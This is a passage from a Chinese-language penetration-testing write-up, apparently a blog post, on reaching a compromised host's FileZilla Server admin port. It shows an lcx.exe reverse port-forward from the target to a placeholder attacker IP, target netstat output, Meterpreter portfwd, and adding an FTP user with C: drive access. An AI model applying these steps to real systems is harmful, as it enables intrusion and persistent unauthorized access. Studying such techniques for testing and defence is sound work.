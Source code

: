 本地机器监听 51 端口，连接用 14147 端口，实战中如果本地属内网环境需要先在路由器将 51 端口映射出来，然后执行监听，成功接收到返回数据后再连接 Filezilla Server。

```
本地机器：
C:\>lcx.exe -listen 51 14147

目标机器：
/c C:\aspSmartUpload\lcx.exe -slave {攻击者外网IP} 51 127.0.0.1 14147
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MkIPBJP2JwbHgprCEuBuHCWdTyftTkPy4icx2bG9uXY2NRKP3ydkJrRA/640?wx_fmt=png)

lcx 转发了 FileZilla Server 的 14147 端口后还是连接不上，返回右上图这样的报错，Google 翻译报错信息得知：协议错误：未通过身份验证，关闭连接，连接到服务器关闭。使用 netstat -ano 命令查看当前网络连接状态如下。

```
TCP       9*.1*9.4.1*3:139        0.0.0.0:0               LISTENING         4
TCP       9*.1*9.4.1*3:54133      1*3.2*1.*7.1*8:51       ESTABLISHED     2028
TCP       127.0.0.1:53            0.0.0.0:0               LISTENING       1040
TCP       127.0.0.1:14147         0.0.0.0:0               LISTENING       1088
TCP       127.0.0.1:14147         127.0.0.1:49160         ESTABLISHED     1088
TCP       127.0.0.1:49160         127.0.0.1:14147         ESTABLISHED     5736
```

****问题描述 1：****

可以通过 lcx.exe 工具将 FileZilla Server 的 14147 端口转发出来，但是返回数据中出错了，最终导致连接不上 FileZilla Server。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MPwGHo8kDkdcZiak01PHFpjXvyXONWtZ9KkGuylSrtcf1M9Iibichubvpw/640?wx_fmt=png)

****解决办法 1：****

Meterpreter 会话中使用 portfwd 命令进行转发，然后即可连接上目标的 FileZilla Server。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MDrVPDxCWIuictxLwOgMeWuNSZD32EzwPavzkwnzniafWbEPHicRSnQIBQ/640?wx_fmt=png)

****问题描述 2：****

连接上 FileZilla Server 并成功添加一个具备 C 盘权限的 FTP 用户，但在连接时仍然报错。

```
CMD命令行和FlashFXP连接报错：
421 Server is locked, please try again later.
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MRyu6JhTgAF1icESg9wAG2soINY2HJsquKYefYUEgOKzG3gTBBHQxBEA/640?wx_fmt=png)

****解决办法 2：****

在 FileZilla Server 软件界面中找到一个 “锁” 图标，只需点击一下解锁即可连接 FTP 了。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MQaEe1R5Ds6G2fibF9v295WoukLB5xsKdxibrhKZtbBlsD3lQwun39nMQ/640?wx_fmt=png)

**0x06 新版变更**

(1) 运行 FileZilla Server 0.9.60_2 前必须安装 KB2533623 补丁，否则可能出现以下报错。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOficCaDlic0xP3hicDlKRnCJ1MWUgia3rD4RmxZClVWlQYjVlxLveE4D9QmssxI27HBYmquVY2d0WZiaug/640?wx_fmt=png)
